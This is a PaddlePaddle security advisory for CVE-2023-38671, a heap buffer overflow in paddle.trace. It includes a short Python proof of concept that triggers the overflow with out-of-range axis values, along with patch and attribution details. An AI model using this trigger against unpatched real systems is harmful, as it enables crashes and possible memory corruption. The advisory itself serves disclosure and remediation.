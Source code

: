 ## PDSA-2023-003: Heap buffer overflow in paddle.trace

### CVE Number

CVE-2023-38671

### Impact

`paddle.trace` has a heap buffer overflow. The PoC is as follows:

```python
import paddle
import numpy as np
from paddle import trace

x = paddle.to_tensor(np.random.uniform(-10, 10, [2, 2, 2]).astype(np.float64))
offset = paddle.to_tensor(np.random.uniform(-10, 10, []).astype(np.int32))
axis1 = paddle.to_tensor(np.random.uniform(-6666666, -2, []).astype(np.int32))
axis2 = paddle.to_tensor(np.random.uniform(-6666666, -2, []).astype(np.int32))

trace(x, offset, axis1, axis2)
```

### Patches

We have patched the issue in commit [12549dfe3e87a4c30f852d2eca81d7f67c8daa87](https://github.com/PaddlePaddle/Paddle/commit/12549dfe3e87a4c30f852d2eca81d7f67c8daa87).
The fix will be included in PaddlePaddle 2.5.0.

### For more information

Please consult [our security guide](../../SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution

This vulnerability has been reported by Tong Liu of ShanghaiTech University.
